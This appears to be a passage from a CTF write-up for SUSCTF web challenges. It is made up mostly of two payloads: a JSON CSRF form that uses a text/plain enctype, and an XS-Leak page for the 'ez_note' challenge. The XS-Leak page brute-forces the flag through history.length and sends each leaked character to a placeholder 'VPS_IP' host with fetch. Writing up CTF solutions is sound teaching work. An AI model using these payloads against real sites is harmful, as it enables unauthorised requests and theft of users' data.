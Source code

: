json csrf

```html
<form action="http://124.71.205.122:10002/changeapi.php" method="POST" id="form" enctype="text/plain">
    <input name='{"username":"byc404", "test":"' value='test"}'>
</form>
<script>form.submit()</script>
```

### ez_note

history.length xsleak

bot停的时间太短一次只能判断一个字符了

```html
<!doctype html>
<html>
<body>
  <script>

    let flag = "a"
    function sleep(ms) {
      return new Promise(resolve => setTimeout(resolve, ms));
    }
    const chars = "CTF0123456789abcdefghijklmnopqrstuvwxyz_{}";
    async function check(char) {
      win  = window.open("http://123.60.29.171:10001")
      win.location = "http://123.60.29.171:10001/search?q=SUSCTF{"+ char
      await sleep(1600)
      win.location = "about:blank"
      await sleep(100)
      win.history.go(-1)
      win.location = "about:blank";
      return win.history.length
    }

    async function main() {
      for (let ch of chars) {
        let res = await check(flag + ch)
        if (res) {
          fetch("http://VPS_IP/?flag="+ ch, {mode: "no-cors"})
          flag+= ch;
          break;
        }
      }
    }


   async function test() {
        ch="a"
        let res = await check(flag + ch)
        fetch("http://VPS_IP/?flag="+ ch + "-"+res, {mode: "no-cors"})
   }
    //main();
     test();
  </script>
  <iframe src="https://deelay.me/999999/http://example.com"></iframe>
</body>
</html>
```
